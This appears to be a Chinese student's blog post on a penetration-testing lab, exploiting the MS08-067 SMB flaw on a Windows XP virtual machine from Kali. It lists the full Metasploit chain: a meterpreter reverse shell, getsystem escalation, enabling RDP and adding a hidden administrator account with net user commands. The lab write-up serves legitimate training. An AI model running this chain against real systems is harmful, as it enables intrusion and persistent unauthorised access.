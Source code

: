 ```yaml
---
layout:     post
title:      "渗透测试综合实训1"
subtitle:   "终于要学到点真东西了吗"
date:       2025-09-06 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 学习
    - 实训
    - 安全
    - 渗透测试
    - WinXP
    - Kali
    - Linux
---
```

## 目标
 今日目标是使用 Kali 对 WinXP 系统的 **SMB服务 MS08-067漏洞**进行利用，最终进入系统桌面进行截图

>虽然什么也没讲，让直接进行实操，但是我还是很有自信的

## 并非一帆风顺的探索阶段
参考资料，使用`Metasploit`工具进行漏洞利用  
过程可以概括为：  
- 困难一：Kali系统镜像下载巨慢，不过教室的机器上有，而且密码相同  
- 困难二：教室的机器太慢了，无法使用。还好带了自己的电脑，有纯净的Kali，再下载软件就是了  
- 困难三：下载失败，原因找了一会，竟然是：签名验证失败，通过网上的教程：[更新时显示签名无效和没有数字签名](https://blog.csdn.net/mighty_Jon/article/details/136188482)修好了。  
- 困难四：由于教室插座不足，电脑没电了，只能使用教室机了（此时已经加载好）
- 困难五；无法找到目标机的IP，我猜目标机通过DHCP获取地址，且开放445端口，所以尝试找教室机的IP
- 困难六：对教室机网段全部IP进行测试均无结果，考虑到可能是虚拟机网络连接模式的问题
- 困难七：测试全部三种模式均不行，转用我的电脑进行测试（充上电了）
- 困难八：虽然是冲上电了，但是用dp口冲的，所以还是很卡
- 困难九：依然无法连接，使用两种端口扫描测试，结果均无开放端口，此时有点陷入自我怀疑，445怎么会没开放呢？
- 困难十：多次重启，发现目标机的VMware控制台视图没有IP地址，关闭目标机后，扫描结果甚至没变化，可能这网始终就**没连上**？

## 解决问题就在灵光一现之间

再次仔细研究资料，发现资料中命令的IP地址很可疑，难道说目标机的**IP地址是固定的**？~~那我之前扫描到的是谁呢？~~  

更改虚拟机的**虚拟网络编辑器**（*此处不再赘述*）  
设置好网段，经过两次测试，最终确定目标机的IP地址就是 `192.168.118.201`  

此时，困扰我一天的问题终于解决了，又是这样简单的问题。  
终于可以进行**下一步**了

## 过程及命令
### 扫描
仅发现主机，不扫描端口（快速）  
`nmap -sn 192.168.118.0/24`

快速扫描并显示操作系统信息（需要root权限）  
`sudo nmap -O -F 192.168.118.0/24`

探测 SMB 服务版本，判断是否存在已知漏洞：  
`nmap -p 139,445 -sV --script smb-vuln* 192.168.118.201`

## 安装及攻击

安装（[参考](https://zhuanlan.zhihu.com/p/604440914)）：  
`apt install metasploit-framework `

启动  
`msfconsole`

搜索相关模块  
`search ms08-067`

设置ms08_067_netapi攻击模块  
`use exploit/windows/smb/ms08_067_netapi`

设置反向代理  
`set payload windows/meterpreter/reverse_tcp`

查看选项  
`options`

设置要攻击的IP  
`set RHOSTS 192.168.118.201`

设置接收端IP（本机）  
`set LHOST  192.168.118.100`

设置接收端通信端口  
`set LPORT  4444 `

查看可以攻击的靶机操作系统型号  
`show targets`

选择windows xp sp3 简体中文  
`set targets 34`

实施**攻击**，得到shell  
`exploit`

## 提权和连接

查看当前权限：  
在meterpreter >提示符下输入：  
`getuid`
普通用户是：BUILTIN\Users  
如果已取得 `NT AUTHORITY\SYSTEM` 权限，则跳过提权

使用 Metasploit 的提权模块  
```bash
# 加载提权模块
background  # 将当前会话后台挂起（返回msfconsole）
use post/windows/escalate/getsystem
set SESSION 1  # 替换为你的会话ID（这里是1）
run

# 若成功，会显示[+] Got SYSTEM via ...，此时重新进入会话：
sessions 1  # 回到meterpreter会话
getuid      # 确认已获得NT AUTHORITY\SYSTEM权限

```
### 开启目标主机的 RDP 服务
自动开启RDP服务并添加防火墙规则  
`run post/windows/manage/enable_rdp`

手动验证 RDP 端口  
`nmap -p 3389 192.168.118.201`

如果目标主机没有可用的登录用户，可创建  
进入目标系统的CMD shell  
`shell`

在 CMD shell 中输入：
```cmd
chcp 65001     # 如果中文乱码
net user haoyangjun 123 /add  # 创建用户haoyangjun，密码123
net localgroup administrators haoyangjun /add  # 将用户添加到管理员组
```

如果shell总是断开或者添加失败  
直接在 Meterpreter 中执行命令（无需进入 shell）  
- 创建用户：`execute -f "net.exe" -a "user haoyangjun 123 /add" -i -t`
- 添加到管理组：`execute -f "net.exe" -a "localgroup administrators haoyangjun /add" -i -t`
- 验证存在：`execute -f "net.exe" -a "user haoyangjun" -i -t`

输入`exit`并按回车，回到 meterpreter >提示符

使用 RDP 客户端连接目标主机  
`rdesktop 192.168.118.201`

熟悉的xp界面，输入账号密码即可**进入桌面**  
然后就是想做啥就做啥喽。